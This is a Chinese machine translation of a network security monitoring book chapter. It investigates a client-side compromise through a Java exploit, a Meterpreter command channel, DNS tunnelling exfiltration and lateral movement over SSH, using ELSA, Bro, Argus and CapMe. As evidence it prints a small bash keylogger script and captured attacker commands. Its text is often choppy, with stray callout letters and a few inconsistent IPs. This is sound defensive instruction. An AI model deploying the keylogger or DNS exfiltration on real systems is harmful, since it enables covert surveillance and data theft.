

Metasploit (*http://www.metasploit.com/*)是一个开源侦察工具。

和 HD Moore 创建的利用框架，现在由

Rapid7 和开发团队。Meterpreter 是一个 Metasploit *有效载荷*，

代码是攻击者在初步获得目标访问权限后使用的。

另一个 Metasploit 模块交付的漏洞的引用。像 core_channel 这样的术语

stdapi 指的是 Metasploit 套件中的功能和特性，而命令

请求和命令响应表示攻击者与受害者之间的通信。

系统和受害者。

*图 11-7：ELSA 显示 203.0.113.15 的 Snort 签名摘要。*

入侵者似乎已经获得了在目标上执行代码的能力。

受害者通过 Java 漏洞受到攻击。

**搜索其他活动**

接下来，我们需要确定这个入侵者是否与其他系统有过互动。

为了完成这项任务，我们返回到第一个包含所有信息的标签页。

203.0.113.15 并点击 *srcip* 链接。ELSA 告诉我们，只有 203.0.113.15 和 172.16.0.37 有与 203.0.113.15 相关的记录，但为了确保准确，

我们也点击 *dstip* 链接并得到相同的结果。这意味着我们可能已经掌握了所有涉及 203.0.113.15 的活动——该 IP 地址并没有

通信的其他系统记录。

然而，这个结果并不意味着没有其他活动影响到受害者，

172.16.0.37。为了调查这个线索，我们为 172.16.0.37 运行了一个新的 ELSA 查询。

然后点击 *program* 链接以获取记录的汇总计数。我们需要

需要知道 172.16.0.37 进行的其他连接。图 11-8 显示了

结果显示。

我们采用类似的方法来调查这些日志。首先，我们检查

排除 Snort 警报，总结它们，并寻找新信息。没有发现

新的条目出现在这里，除了我们看到与包管理相关的 Snort 警报，

可能是由于系统更新所致。

客户端妥协 **241**

[www.it-ebooks.info](http://www.it-ebooks.info/)





*图 11-8：ELSA 显示 172.16.0.37 的日志数据源。*

接下来，我们查看 dstip 信息并得到结果，如下所示

图 11-9。 （我已剪切结果，以集中显示最相关的部分）

信息。)

*图 11-9：ELSA 显示 172.16.0.37 的 dstip 条目汇总。*

有一条记录引起了我们的注意。底部的记录显示了 10.0.0.99，一个

Vivian’s Pets 内部网络中的 IP 地址。这意味着有五个

172.16.0.37 和 10.0.0.99 之间的连接。它们合法吗？能否

一个或多个可能是入侵者滥用 172.16.0.37 所导致？

点击 IP 地址 10.0.0.99 会让 ELSA 查询所有与

10.0.0.99 是目标 IP 地址，172.16.0.37 是源 IP

地址。图 11-10 显示了结果。

这些记录显示了三次 SSH 连接。所有三次连接都出现在

Bro *conn.log* 文件中有两条记录出现在 Bro *notice.log* 文件中的“启发式检测”中。这些连接可能涉及通过像

安全复制（scp）或使用 SSH 进行的交互式登录。可能值得看一下

查询所有涉及 10.0.0.9 的活动，因此我们运行了一个新的查询（未显示）

**242** 第十一章

[www.it-ebooks.info](http://www.it-ebooks.info/)



只针对该 IP 地址查询，并按程序分组结果。它们显示了

121 个 Snort 警报，23 条 *conn.log* 记录，18 条 *dns.log* 记录，2 条 *notice.log* 记录，和 1 条 *http.log* 记录。

使用相同的调查步骤，我们查询每种日志类型的任何-

有趣的事情。所有与 10.0.0.9 相关的 Snort 警报似乎都与

包管理，其他活动的 Bro 日志条目也显示了类似内容。

这是案件的结束吗？172.16.0.37 是唯一的受害者，还是

SSH 连接到 10.0.0.9 是正常的商业活动吗？我们的 NSM 平台-

形式上有遗漏的地方？

*图 11-10: ELSA 显示源 IP 172.16.0.37 和目标 IP 10.0.0.9 的 Bro 日志记录。*

***查找丢失的流量***

在此时，我们怀疑可能有问题，并希望

确保 NSM 平台按预期运行。我们的系统

负责监视两个段落的任务吗？是否有可能丢失流量？

一种回答这些问题的方法是检查 Bro 的 *capture_loss.log*，它

报告 Bro 的数据包捕获性能。列表 11-1 显示了内容

这是该事件发生时日志的一部分。

$ **cat /nsm/bro/logs/current/capture_loss.log**

#separator \x09

#set_separator ,

#empty_field (空)

#unset_field -

#path capture_loss

#open 2013-03-16-15-02-50

#fields ts ts_delta peer gaps acks percent_lost

#types 时间间隔 字符串 数量 数量 字符串

客户端妥协 **243**

[www.it-ebooks.info](http://www.it-ebooks.info/)

1363446165.986403 900.000429 sovm-eth2-1 0 0 0.000%

1363446165.992449 900.000470 sovm-eth1-1 0 0 0.000%

1363447065.986807 900.000404 sovm-eth2-1 17963 19964 u89.977%

1363447065.992765 900.000316 sovm-eth1-1 0 0 0.000%

*Listing 11-1: Bro* capture_loss .log

u 处的倒数第二项条目令人震惊。它显示 Bro 丢失了

89.977% 的流量是在第二个嗅探传感器接口上看到的。

这可能是灾难性的！(Bro 可能因为内存不足而尝试运行失败)

跟踪在资源有限的传感器上大量的网络活动。)

当监控实时接口时，Bro 必须做出决定，选择哪些

检查哪些流量需要检查，哪些流量需要忽略，基本上是为了尽量跟上

实时数据流。运行在已保存的跟踪数据上时，Bro 有更多时间

用于处理数据包，也许提供了更深入的分析。

记住，NSM 的一个原则是使用多种工具进行

收集和分析数据，因此如果一个工具失败，其他数据源可能

仍然帮助你确定发生了什么。检查 */nsm/sensor_data/*

在 NSM 平台上的 *sovm-eth2/dailylogs/2013-03-16* 目录中，我们找到了

163MB *snort.log.1363441680* 文件，包含完整的内容数据捕获。

由 Netsniff-ng 捕获的在 SO NSM 平台上的数据，在事件发生时

因为我们有原始流量的副本在磁盘上，所以我们可以运行工具

类似于 Bro 的工具。Netsniff-ng 能够保存完整的跟踪数据，因为它

只是直接将数据包记录到磁盘；它并没有进行任何检查或分析—

sis，正如 Bro 尝试做的那样。为了确定 Bro 可能遗漏了什么，我们可以

重新运行 Bro 以处理存储在传感器上的完整内容数据。结果显示在

列表 11-2 中。

$ **bro -r snort.log.1363441680**

$ **ls -al**

总计 203008

drwxrwxr-x 3 sovm sovm 4096 Mar 16 15:54 .

drwxr-xr-x 30 sovm sovm 4096 Mar 16 15:53 ..

-rw-rw-r-- 1 sovm sovm 59960 Mar 16 15:54 conn.log

-rw-rw-r-- 1 sovm sovm 44624347 Mar 16 15:54 dns.logu

-rw-rw-r-- 1 sovm sovm 1328 Mar 16 15:54 http.log

-rw-rw-r-- 1 sovm sovm 1446 Mar 16 15:54 notice.log

-rw-rw-r-- 1 sovm sovm 1128 Mar 16 15:54 notice_policy.log

-rw-rw-r-- 1 sovm sovm 251 3 月 16 日 15:54 packet_filter.log

-rw-r--r-- 1 sovm sovm 163155548 3 月 16 日 15:53 snort.log.1363441680

-rw-rw-r-- 1 sovm sovm 1066 3 月 16 日 15:54 ssh.log

drwx------ 3 sovm sovm 4096 3 月 16 日 15:54 .state

-rw-rw-r-- 1 sovm sovm 1668 3 月 16 日 15:54 weird.log

*清单 11-2：对完整内容数据运行 Bro 手动查询*

*dns.log* 文件的巨大大小立即引起了我们的注意。

一个 163MB 的数据包跟踪怎么会有 44MB 的 DNS 日志？

**244** 第十一章

[www.it-ebooks.info](http://www.it-ebooks.info/)

**分析 bro dns.log 文件**

我们决定手动浏览新的 *dns.log* 文件，看看它揭示了什么。

**注：** *2013 年初，ELSA 作者 Martin Holste 添加了一个* import.pl *脚本* (https://

code.google.com/p/enterprise-log-search-and-archive/source/browse/

trunk/elsa/node/import.pl/) *到 ELSA 以启用手动日志添加功能。*

*例如，我们将结合早期的 ELSA 查询方法与手动日志*

*回顾，展示分析师如何结合使用这两种技术。*

我们看到许多正常条目，然后有一些看起来很奇怪的条目。清单 11-3

显示了几个示例 DNS 日志条目。

1363444304.701350 fOBMXgho3v5 10.0.0.99 40912 198.51.100.3 53 udp 10453 daisy.ubuntu.comu 1 C_INTERNET 1 Ay 0 NOERROR F

F T T 0 91.189.95.54,91.189.95.55{ 5.000000,5.000000

1363444390.148462 Vr7iTah4er6 10.0.0.99| 58566 203.0.113.8} 53 udp 470 labhl2pekjmnzoaoteostk4ms4xfhzma.practicalnsm.comv 1 C_INTERNET 10

NULLz - - F F T

F 0 - -

1363444390.147170 Vr7iTah4er6 10.0.0.99| 58566 203.0.113.8} 53 udp 58279 vaaaakat2v2.practicalnsm.comw 1 C_INTERNET 10 NULLz - -

F F T F 0 -

-

1363444390.092180 Vr7iTah4er6 10.0.0.99| 58566 203.0.113.8} 53 udp 50552 yrb5fo.practicalnsm.comx 1 C_INTERNET 10 NULLz - - F

F T F 0 - -

*清单 11-3：Bro dns.log 文件中的正常和可疑条目*

第一个记录是 *daisy.ubuntu.com* u，看起来像是一个常规的 DNS 查询；

有人想知道该网站的 IP 地址。但是接下来的两条记录

看起来很奇怪。为什么有人查询 *labhl2pekjmnzoaoteostk4ms4xfhzma* 

*.practicalnsm.com* v，*vaaaakat2v2.practicalnsm.com* w，以及 *yrb5fo.practicalnsm* 

*.com* x？此外，与第一次查询 A 记录 y 不同，这些是 NULL 查询-

查询 z，是没有实际意义的 A 记录查询。A 记录查询返回

与域名相关的 IP 地址。Bro 记录了对

单个 DNS 日志中的 A 记录查询 {。

还请注意这些查询的源 IP 和目标 IP 地址：

10.0.0.99 | 和 203.0.113.8 }。源 IP 地址 10.0.0.99 是系统-

系统通过 SSH 与 172.16.0.37 连接了三次。目标 IP 地址

地址与 203.0.113.15 相同的网络块，共享了一个主机计算机

恶意 Java 有效载荷。这里发生了一些奇怪的事情。然后我们注意到

其他也涉及 10.0.0.99 和 203.0.113.8 的奇怪条目，如下所示

清单 11-4。这些也是 NULL DNS 记录。

客户端侧妥协 **245**

[www.it-ebooks.info](http://www.it-ebooks.info/)

1363445036.498672 FVaYW5ltbNh 10.0.0.99 34482 203.0.113.8 53 udp 49394 0euase6eq\xc5v\xc1\xbfp2\xc5h\xdd\xd0kmv\xedt\xc2\xc7\xf8\xea2p\xdc\xe0\xcd\xef\xfd\ xc5t\xed8t\xc4yj\xd1\xdf9qn\xf8\xcf0\xd8\xd480\xe7\xc5\xda\xf97\xe5k.\xebb6\xd3gj\xc76\xdb\xe9\ xdbn\xce\xf1lv\xeb\xbdo\xdayn5gko\xc3tny9\xbf\xe5\xee\xce\xd3\xfb\xee\xc2bd\xd9zj\xbe\xe2z\ xf37\xbe\xcf\xbeh\xfd\xea\xfbe.\xecch\xd4k\xc2cgjqq\xf2\xe5\xd1mj\xcck6mg\xf5z\xc5\xe7sc\xeb\ xea\xfbsc\xe4\xeb\xf9\xe7xq\xd57\xd9t\xe3\xe3\xef\xc0m\xd7fh\xeav\xcc8dgs.r\xfd\xe9\xf8\xca\ xd3\xe9\xc4\xd4u\xect8z\xcc\xf2w\xecyy\xc3\xf7n5bq\xf9\xe1v\xc1e\xcdo\xc8z\xf53\xcecgpwy\xd7\ xfdr\xe5\xfae9iy\xe9\xebz7.practicalnsm.com 1

C_INTERNET 10 NULLu - - F F T F 0

- -

1363444959.826628 FVaYW5ltbNh 10.0.0.99 34482 203.0.113.8 53 udp 53252 0iiafy\xf7\xdf\xdbw\xfa\xe3\xe1w\xe7u5\xd5auz\xbf\xe3\xd6\xe6\xd0\xf4u\xc0a\xe4\ xc3l\xdf\xe6\xe1\xf6\xe1\xe1\xbf\xf62c\xd6\xe6d\xe8\xcf\xe2m\xc4\xe3\xe8\xeeru\xe68\xcd\ xc8\xf4j.\xea\xf9ujb\xdau\xc0\xda\xf3\xef\xeb\xc5\xf9\xc4p\xbe\xee\xf6\xc1awd\xfc\xf2\xc5\ xd0\xfd\xf1\xc0f\xc5r\xe0\xc9\xecm\xdd\xd2\xe2l\xf0\xd8\xfc\xd8ct5\xc6\xfdt\xcce\xec\xf7z\ xea.z\xe5m\xfbr\xe9\xbe\xd2\xe7\xfd\xe3\xc6cu\xc2wtz\xeb\xe1uqk\xbf\xf2\xcb4\xe6v1w\xcei\xd8\ xca\xc8hmsg4qjzhkd\xe0u\xe4\xfa\xc7nitlk.\xbc\xeb\xdec\xe1\xc8l31yiz\xfd\xd1\xf8\xfdro\xd0\ xef3p\xccoql\xd9\xdb\xc5\xedt\xc2\xc1\xd5\xf2m\xfcq\xebm\xc2\xc8f\xf9x\xf8xikc\xc3wu\xdfcc.

practicalnsm.com 1 C_INTERNET 10 NULLu - - F F T

F 0 - -

1363445003.696798 FVaYW5ltbNh 10.0.0.99 34482 203.0.113.8 53 udp 45003 0akazvdidx3\xf1bv\xf078w\xe20\xfd\xd0i\xc1\xe7d\xe2\xc5\xcd\xe3\xda7\xe0\xf9\xbf9\ xfdk\xefrxcn\xd5\xebue\xc6\xed\xbc\xc5b\xe2\xcc\xda\xd0\xc3\xe2\xbdij8.\xdf\xf3\xfa\xefy\xfd\ xc8yhm\xbe\xf77l\xc8\xdc\xe3\xe0\xca\xdeo\xc0\xf3\xcbam\xd1\xd2\xfdt\xd1i\xd7r\xea\xcbc3\xdc\ xee\xe5\xe04o\xd9\xce\xec8n\xf99w\xd8\xfcjnw.\xf2j\xe4\xf5\xf6\xeb\xc60\xf3hv\xf9\xc38s\xef\ xd5b\xe4\xc6\xc9\xc9g\xd38\xfbhy\xf5\xccxw\xc7\xd0a2ypsz\xca\xe3\xbd\xc8\xbd\xc6cy\xd2\xce\ xbf\xe0b\xd8\xc4\xc6i.cb1\xf4fqp\xce\xd4\xebb\xe9v\xfdk\xed\xc3\xce\xcf\xe5j\xf9u\xf4uyn\ xed\xe3o\xf6l\xd7zyrp\xf2\xfd5swrz\xe8\xe6\xd5\xe2\xd3iv\xf2m\xd2\xe9\xdb.practicalnsm.com 1 C_INTERNET 10 NULLu - - F F T F 0

- -

*列表 11-4：Bro* dns .log *文件中的恶意条目*

看起来像是某人在主机名中传输数据。

*practicalnsm.com* 域名。这看起来是一种隐蔽通道的形式——

入侵者通过 DNS 记录发送内容。

我们观察到的技术在防御者严格

出站流量的访问控制。如果攻击者可以查询域名服务器，

他可以通过 DNS 查询时将数据打包在主机名中发送。

（这是一种低带宽攻击方法，因为它只使用有限的字节数

可以通过主机名传输数据。事实上，超过 65,000 条 DNS 记录

这个特定的 Bro *dns.log* 文件与这种活动类型相关联。)

**检查目标端口**

到目前为止，我们已识别出在这个特定事件中涉及的四个 IP 地址。

入侵。两者属于 Vivian’s Pets：172.16.0.37（位于无线网络中），

和 10.0.0.99（位于内部网络中）。其中两个属于入侵者，并位于

在互联网上：203.0.113.15 和 203.0.113.8。图 11-11 显示了这些 IP 地址的位置。

这些 IP 地址在网络上的位置。

**246** 第十一章

[www.it-ebooks.info](http://www.it-ebooks.info/)



入侵者 1

互联网

203.0.113.15

入侵者 2

203.0.113.8

Tap

无线

网络

Tap

NSM

笔记本电脑

内部网络

172.16.0.37

网络

桌面

10.0.0.99

*图 11-11：入侵的参与者*

我们决定再次查看涉及 203.0.113.115 的流量，

通过查询 ELSA 的记录并按目标端口（dstport）进行分组。

结果如图 11-12 所示。

*图 11-12：ELSA 显示的汇总*

*203.0.113.15 的目标端口条目。*

客户端端点妥协 **247**

[www.it-ebooks.info](http://www.it-ebooks.info/)





目标端口为 54056 的记录与

只有一种类型的消息与此活动相关。

这些活动的消息；它们都是 Snort 警报，如图 11-13 所示。

*图 11-13：ELSA 显示了 Snort 签名的汇总*

*203.0.113.15 和目标端口 54056。*

转到目标端口 4444，我们使用类似的过程进行分析。

结果。图 11-14 显示了当我们检查记录时 ELSA 返回的结果。

其中端口 4444 是目标端口，203.0.113.15 是一个 IP 地址。

*图 11-14：ELSA 显示了 Snort 签名的汇总*

*203.0.113.15 和目标端口 4444。*

重要的是要意识到，这两个目标端口实际上是

包交换的遗留物，在 203.0.113.15 的计算机之间交换。

和 172.16.0.37。可能很难识别这一点，因为 ELSA 正在汇总信息。

汇总 Snort 警报和其他格式捕获的信息。然而，

快速检查 Argus 会话数据，可以轻松理解之前提到的 Metasploit Meterpreter 活动。

重要的连接，如列表 11-5 所示。

$ **racluster -n -r /nsm/sensor_data/sovm-eth1/argus/2013-03-16.log - host 203.0.113.15**

StartTime Flgs Proto SrcAddr Sport Dir DstAddr Dport

TotPkts TotBytes State

14:16:48.724146 e tcp 172.16.0.37.60320 -> 203.0.113.15.8080u 19 3360 FIN

14:16:52.544555 e tcp 172.16.0.37.60321 -> 203.0.113.15.8080v 13 1790 FIN

14:16:52.735852 e tcp 172.16.0.37.60322 -> 203.0.113.15.8080w 27 16164 FIN

14:16:53.371660 e tcp 172.16.0.37.54056 -> 203.0.113.15.4444x 2802 834486 FIN

*列表 11-5：涉及 203.0.113.15 的 Argus 记录*

**248** 第十一章

[www.it-ebooks.info](http://www.it-ebooks.info/)

该记录显示 172.16.0.37 四次连接到 203.0.113.15，如四个会话所示。前三个会话连接到端口 8080

TCP 于 u、v 和 w 处。最后一个会话连接到端口 4444 TCP x。

我们还可以通过完整的内容数据来检查这些会话，

并使用 Tshark 关注到 8080 TCP 端口的 HTTP 流量。

列表 11-6 显示了该活动。

$ **tshark -t ad -n -r /nsm/sensor_data/sovm-eth1/dailylogs/2013-03-16/snort**

**.log.1363441666 -R 'tcp.port==8080 and http'**

2910 2013-03-16 14:16:48.727696 172.16.0.37 -> 203.0.113.15 HTTP 373

GET /healthcarenews HTTP/1.1

2912 2013-03-16 14:16:48.729359 203.0.113.15 -> 172.16.0.37 HTTP 200

HTTP/1.1 302 移动

2914 2013-03-16 14:16:48.746910 172.16.0.37 -> 203.0.113.15 HTTP 374

GET /healthcarenews/ HTTP/1.1

2915 2013-03-16 14:16:48.752649 203.0.113.15 -> 172.16.0.37 HTTP 291

HTTP/1.1 200 OK (text/html)

2917 2013-03-16 14:16:48.897487 172.16.0.37 -> 203.0.113.15 HTTP 340

GET /favicon.ico HTTP/1.1

2918 2013-03-16 14:16:48.899164 203.0.113.15 -> 172.16.0.37 HTTP 335

HTTP/1.1 404 未找到文件 (text/html)

2920 2013-03-16 14:16:48.905587 172.16.0.37 -> 203.0.113.15 HTTP 370

GET /favicon.ico HTTP/1.1

2921 2013-03-16 14:16:48.908271 203.0.113.15 -> 172.16.0.37 HTTP 335

HTTP/1.1 404 未找到文件 (text/html)

2926 2013-03-16 14:16:52.560069 172.16.0.37 -> 203.0.113.15 HTTP 415

GET /healthcarenews/Exploit.jar.pack.gzu HTTP/1.1

2928 2013-03-16 14:16:52.719387 203.0.113.15 -> 172.16.0.37 HTTP 200

HTTP/1.1 302 移动

2930 2013-03-16 14:16:52.722747 172.16.0.37 -> 203.0.113.15 HTTP 274

GET /healthcarenews/ HTTP/1.1

2932 2013-03-16 14:16:52.725372 203.0.113.15 -> 172.16.0.37 HTTP 291

HTTP/1.1 200 OKx (text/html)

2939 2013-03-16 14:16:52.738151 172.16.0.37 -> 203.0.113.15 HTTP 364

GET /healthcarenews/Exploit.jarv HTTP/1.1

2945 2013-03-16 14:16:53.022853 203.0.113.15 -> 172.16.0.37 HTTP 1138

HTTP/1.1 200 OKy (application/octet-stream)

2951 2013-03-16 14:16:53.037218 172.16.0.37 -> 203.0.113.15 HTTP 406

GET /healthcarenews/Exploit.jarw HTTP/1.1

2957 2013-03-16 14:16:53.056665 203.0.113.15 -> 172.16.0.37 HTTP 1138

HTTP/1.1 200 OKz (application/octet-stream)

*列表 11-6：从 172.16.0.37 到 203.0.113.15 的 HTTP 流量*

列表 11-6 包含几个有问题的条目。对*Exploit*的请求

*.jar .pack.gz* 在 u 处，*Exploit.jar* v w 表示入侵者在受害者系统上的代码正在尝试从攻击系统获取额外的软件。该

在受害者上运行的初始代码是滩头阵地，现在它正在回拨

为增援提供根据地。对受害者来说不幸的是，那些包

可以根据订单提供并服务，如 200 OK 响应 x y z 所示。

这是另一种查看启动入侵活动的方式。然而，

我们仍然需要知道攻击成功后发生了什么。

客户端妥协 **249**

[www.it-ebooks.info](http://www.it-ebooks.info/)



**检查命令与控制通道**

从我们之前的分析中，我们知道入侵者从受害者系统进行了横向移动

172.16.0.37 到 10.0.0.99，但我们不知道他在这两台系统上做了什么。

也许涉及端口 4444 TCP 的流量包含答案。这可能

是命令与控制通道，因为它紧接在后出现

与恶意网站的连接。

为了分析可疑的指挥与控制通道，我们生成

使用 CapMe 功能为端口 4444 流量生成转录本。点击

点击了位于端口 4444 记录旁边的**信息**按钮，获取完整内容数据。图 11-15 展示了如何访问 CapMe。

*图 11-15：启动 CapMe 以生成端口 4444 流量的转录本*

点击**getPcap**选项，然后点击**OK**，以显示新屏幕

在这里我们输入凭据以访问传感器。此外，作为这个例子的内容，我

需要将 Sid Source 条目从**sancp**更改为**event**，以帮助 CapMe 找到正确的会话。当我最初运行这个查询时，CapMe 没有找到

会话的 Sid Source 为 sancp。会话记录可能

尚未加载，因此我使用事件表查找感兴趣的数据。这

该方法仅在有事件（由 Snort 或 Suricata 触发）时有效，

例如）与流量相关的。使用 sancp 表更安全

只要记录已经加载。你可能需要等待几分钟

需要等待几分钟以加载记录。图 11-16 展示了 CapMe 数据请求

界面。

在本节中，我们将检查结果转录本。它大小为 642KB，

相当大，手动检查其中感兴趣的条目非常繁琐，

但这样做是我们确定受害者每个时刻发生了什么的最佳方法

系统。我们将查看转录本中的摘录以及正在发生的事情

在每个环节。

**250** 第十一章

[www.it-ebooks.info](http://www.it-ebooks.info/)



*图 11-16：配置 CapMe 以检索转录本*

*端口 4444 流量*

***初始访问***

转录本以 Sguil 创建的标准头开始（如图所示）

负责 CapMe 转录本创建的（在后台），如图所示

列表 11-7。指挥与控制通道不是基于明文的

交换，如前面例子中所示，因此要准备好处理大量多余的

字符！

传感器名称：sovm-eth1-1

时间戳：2013-03-16 14:17:57

连接 ID：.sovm-eth1-1_210

源 IP：172.16.0.37（未知）

目标 IP：203.0.113.15（未知）

源端口：54056

目标端口：4444

操作系统指纹：172.16.0.37:54056 - 未知 [S10:64:1:60:M1460,S,T,N,W6:.:?:?]（运行：4 小时） 操作系统指纹：-> 203.0.113.15:4444（链接：以太网/调制解调器）

DST: ...........-.

DST: .........start..E(Ljava/io/DataInputStream;Ljava/io/OutputStream;[Ljava/lang/String;)V..

*列表 11-7：Sguil 创建的标准转录本头*

接下来，出现了 meterpreter 术语，如列表 11-8 所示。我们已经

在 Snort 警报中看到了这个，但是这里出现该术语表示我们正在

处理 Metasploit 框架中的 Meterpreter 组件。

客户端妥协 **251**

[www.it-ebooks.info](http://www.it-ebooks.info/)

DST: java/util/Map.......7com/metasploit/**meterpreter**/MemoryBufferURLStreamHandler.............

getFiles...java/lang/Class........java/lang/Object.....

*列表 11-8：meterpreter 参考*

如列表 11-9 所示，接下来我们看到术语 sysinfo，后面跟着

可能是一个主机名，wirubu32，以及一个 Linux 内核版本，Linux

3.5.0-25-generic (i386)。受害者系统似乎是 Linux i386

平台。

SRC: .........."....stdapi_sys_config_**sysinfo**....)....53495413969516947426070095319226.........

**wirubu32**....&.... **Linux 3.5.0-25-generic (i386)**.............

DST:

*列表 11-9：系统信息*

接下来，我们看到术语 desktop_screenshot，如列表 11-10 所示，

这无疑是可疑的。这可能是一个获取命令

受害者桌面的屏幕截图。

..Ji.......%....stdapi_ui_**desktop_screenshot**....)....53921668623768997177532920965755..........

..2..I. .....j.x...}|T..0|&s..0..t.AS.u.`.F..I'..2.Q&..k&..`.4M)R.AZ'.....v.i.Gm...../

[...V..@...@.Q...WO..X.......g...{.{..{.ym..g.}.^{.

*列表 11-10：获取屏幕截图的 desktop_screenshot 命令*

该 desktop_screenshot 命令的第二次出现后

由 JFIF 字符串组成，如列表 11-11 所示。这可能是其头部

一个 JPEG 文件交换格式（JFIF）文件。

SRC: ..........%....stdapi_ui_**desktop_screenshot**....)....53921668623768997177532920965755..

..w.......... **JFIF**.............C......

*列表 11-11：JFIF 参考*

列表 11-12 中的摘录显示了 net_config_get_interfaces 和

net_config_get_routes 函数。入侵者可能正在列出网络

在受害者系统上列出接口和路由，查看他的位置

网络。

DST: ...Z.......)....stdapi_net_config_get_interfaces....)....90005067652712330016895656875088\.

SRC: .

SRC: ..j.......)....stdapi_**net_config_get_interfaces**....)....90005067652712330016895656875088..

...............@..........|...........z....................eth0 -

eth0...................)..8.............@.......................%...........

.....@..........|...........z..@4................lo - lo.......................................

..................................

DST: ...V.......%....stdapi_net_config_get_routes....)....34295947967733618834188710122897\.

**252** 第十一章

[www.it-ebooks.info](http://www.it-ebooks.info/)

SRC: .

SRC: ..Z.......%....stdapi_**net_config_get_routes**....)....34295947967733618834188710122897.....

...........P@.....................)..8.....................................................,@

..............

*列表 11-12：net_config_get_interfaces 和 net_config_get_routes 函数*

列表 11-13 中的 getwd 命令可能是获取工作

目录，后面提到 */home/ubu32* 目录。

%...........................P@......

........................................................................,@.....................

..................

DST: ...I............stdapi_fs_**getwd**....)....55282344159994215019998291531526\.

SRC: .

SRC: ..i............stdapi_fs_getwd....)....55282344159994215019998291531526......... **/home/**

**ubu32**.............

*列表 11-13：getwd 命令和* /home/ubu32 *引用*

列表 11-14 显示了到目前为止最有趣的条目。字符串 keylog

.sh 表示涉及键盘记录器。如果入侵者能够捕获按键

在受害者的计算机上，他可以访问各种信息，并可能获取其他

系统。脚本的名称后面似乎是脚本本身，如

以及用于保存记录的按键日志的文件名：*/tmp/.xkey.log*。

有了这些信息，我们可以在受害者硬盘上查找该文件，

假设入侵者没有删除它，或者系统没有在之后删除它

重启。

DST: ................core_channel_open....)....64467327797845790259721795802753........3std api_fs_file........6........................ **keylog.sh**.........wbb.

SRC: .

SRC: ..c............core_channel_open....)....64467327797845790259721795802753........2.......

.........

DST: ................core_channel_write....)....05544054210663822153934887650143........2.....

..X...4#!/bin/bash

DST: export DISPLAY=:0.0

DST: xinput list

DST: echo -e "KBD ID ?"

DST: 读取 kbd

DST: xmodmap -pke > **/tmp/.xkey.log**

DST: script -c "xinput test $kbd" | cat >> /**tmp/.xkey.log** & DST: echo "键盘记录日志可以从 **/tmp/.xkey.log** 下载"

DST: echo "使用 meterpreter 下载功能"

DST: echo "按 CTLR+C 退出此会话，**键盘记录器将在后台运行**"

*列表 11-14：键盘记录器引用*

入侵者似乎接下来执行了一个 ls -al 命令。(列表 11-15

仅显示输出的一部分，尽管整个内容都在记录中。)

客户端妥协 **253**

[www.it-ebooks.info](http://www.it-ebooks.info/)

DST: ...s............core_channel_write....)....27069574503151630704223424155348........2......

.....4**ls -al**

**DST:** ............

SRC: .

SRC: ..d............core_channel_write....)....27069574503151630704223424155348...............

..........

SRC: .

SRC: ..............2.......W...4total 164

SRC: drwxr-xr-x 24 ubu32 ubu32 4096 3 月 16 日 10:22 .

SRC: drwxr-xr-x 3 root root 4096 3 月 8 日 21:00 ..

SRC: -rw------- 1 ubu32 ubu32 4447 3 月 16 日 08:17 .bash_history

SRC: -rw-r--r-- 1 ubu32 ubu32 220 3 月 8 日 21:00 .bash_logout

SRC: -rw-r--r-- 1 ubu32 ubu32 3486 3 月 8 日 21:00 .bashrc

